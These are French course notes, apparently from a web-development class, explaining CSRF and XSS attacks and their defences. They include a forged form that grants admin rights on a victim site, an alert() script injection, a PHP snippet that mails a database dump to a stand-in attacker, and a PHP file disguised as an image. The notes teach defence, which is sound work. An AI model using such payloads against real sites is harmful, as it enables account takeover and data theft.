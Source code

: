 ### Exemple

1. je suis loggé sur candidatures de diallo
2. je vais sur petithackermalin.com dans un autre onglet
3. sur "phm.com" il y a un formulaire bidon que je vais valider (il te promet un iphone 40 gratos)
4. le form en question : `<form action="candidatures.com/user/petithacker"><input name="admin" value="1"/></form>` (et non pas un envoi d'iphone XXX)
5. petithacker est maintenant admin sur le site de diallo, si l'utilisateur connecté en 1 avait les droits d'effectuer le POST du form.

### Comment se protéger ?

Je dois m'assurer que le formulaire vient bien de chez moi !

=> j'ajoute un champ caché **aléatoire** !! genre un token (hash ou autre) et il faut le stocker en session pour comparer le token reçu et le token généré dans le formulaire (stocké donc).

=> `token csrf`

## XSS : Cross Site Scripting

! nom un peu trop vague.

### Principe

Je crée un script (php, js, etc.) et je parviens à le faire exécuter par l'utilisateur que j'attaque.

### Exemple bien standard

Je poste un commentaire dans un formulaire d'un forum :

```js
alert("you have been pwnd");
```

L'utilisateur qui verra mon commentaire va déclencher l'alert !

ou

```php
<?php
  $bdd = BDD::connexion();
  new PHPMailer()->send("petithackermalin",$bdd->dumpDatabase());
?>
```

ou j'ai uploadé un fichier php `image.png` et le php s'exécute quand j'affiche ma photo de profil...

### Comment je me protège ?

> En codant correctement !

- empêcher les caractères spéciaux dans les champs texte (escape special chars...)
- en vérifiant le mime/type et extension des fichiers uploadés et en les renommant pour éviter leur exécution éventuelle
